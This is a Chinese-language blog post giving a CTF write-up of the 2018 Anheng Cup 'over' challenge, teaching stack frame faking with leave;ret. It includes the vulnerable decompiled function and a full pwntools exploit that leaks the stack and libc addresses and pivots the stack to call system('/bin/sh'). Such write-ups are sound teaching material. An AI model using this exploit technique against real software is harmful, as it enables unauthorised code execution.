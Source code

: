 ﻿---
layout:     post
title:      栈溢出基础浅记（5）
subtitle:   
date:       2023-10-12
author:     Kody Black
header-img: img/post-bg-normal.jpg
catalog: true
tags:
    - pwn
    - CTF
---

## frame faking(栈伪造)

——from ctf wiki [花式栈溢出技巧](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/fancy-rop/#frame-faking)

这个方法其实就是利用leave，ret实现控制EBP，最终实现控制程序执行流。

### 2018 安恒杯 [over](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/fake_frame/over)

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  while ( sub_400676() )
    ;
  return 0LL;
}

int sub_400676()
{
  char buf[80]; // [rsp+0h] [rbp-50h]

  memset(buf, 0, sizeof(buf));
  putchar('>');
  read(0, buf, 96uLL);
  return puts(buf);
}
```

![16971205870941697120586276.png](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/16971205870941697120586276.png)

使用gdb调试可以发现，在sub_400676中，buf大小为80，read最多能读入0x60。栈溢出共16字节，即只有rbp和返回地址。

注意：此时RBP的值即为当前函数返回后的RBP地址，从gdb中可以看到buf的地址+0x70=返回吼的RBP地址。

由于后者可以通过puts函数直接泄露，所以可以通过该地址-0x70泄露得到buf的地址。之后我们就可以通过栈溢出将当前rbp覆盖为buf的地址，返回地址用（leave，ret）覆盖。具体的思路如下图：

![1697121209095f80110eb7668327945bd41b8d0fbe02.jpg](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/1697121209095f80110eb7668327945bd41b8d0fbe02.jpg)

实际上共三个payload，第一个 `b"a" * 80`，通过下面的puts直接泄露出buf地址。

第二个用于得到libc的地址，第三个用于执行execve，这两个payload的栈布局都是按照上面的图片。

exp如下：

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
from LibcSearcher import LibcSearcher

# context.log_level = "debug"
sh = process("./over.over")
file = ELF("./over.over")

sh.sendafter(b">", b"a" * 80)

stack = u64(sh.recvuntil(b"\x7f")[-6:].ljust(8, b"\0")) - 0x70
success("stack -> {:#x}".format(stack))

puts_plt = file.plt["puts"]
puts_got = file.got["puts"]
# ROPgadget --binary ./over.over --only "pop|ret" | grep rdi
# 0x0000000000400793 : pop rdi ; ret
pop_rdi_ret = 0x400793
sub_400676 = 0x400676
# ROPgadget --binary ./over.over --only "leave|ret"
# 0x00000000004006be : leave ; ret
leave_ret = 0x4006BE
payload = (
    b"11111111"
    + p64(pop_rdi_ret)
    + p64(puts_got)
    + p64(puts_plt)
    + p64(sub_400676)
    + (80 - 40) * b"1"
    + p64(stack)
    + p64(leave_ret)
)
sh.sendafter(">", payload)
puts_got_addr = u64(sh.recvuntil(b"\x7f")[-6:].ljust(8, b"\0"))
success("puts_got_addr -> {:#x}".format(puts_got_addr))

libc = LibcSearcher("puts", puts_got_addr)
libc_base = puts_got_addr - libc.dump("puts")
success("libc_base -> {:#x}".format(libc_base))

system_addr = libc_base + libc.dump("system")
binsh_addr = libc_base + libc.dump("str_bin_sh")
# ROPgadget --binary ./over.over --only "pop|ret" | grep rsi
# 0x0000000000400791 : pop rsi ; pop r15 ; ret
pop_rsi_r15_ret = 0x400791
# gdb.attach(sh, "b *0x4006ad\n")
payload = (
    b"22222222"
    + p64(pop_rdi_ret)
    + p64(binsh_addr)
    + p64(pop_rsi_r15_ret)
    + p64(0)
    + p64(0)
    + p64(system_addr)
    + (80 - 7 * 8) * b"2"
    + p64(stack - 0x30)
    + p64(leave_ret)
)
sh.sendafter(">", payload)
sh.interactive()

```

每次执行payload的时候，buf的位置有可能会不一样，需要用gdb先看看情况

![16971233675471697123367211.png](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/16971233675471697123367211.png)

这里看到，第二次payload中的buf位置为f50，需要在原本的基础上-0x30
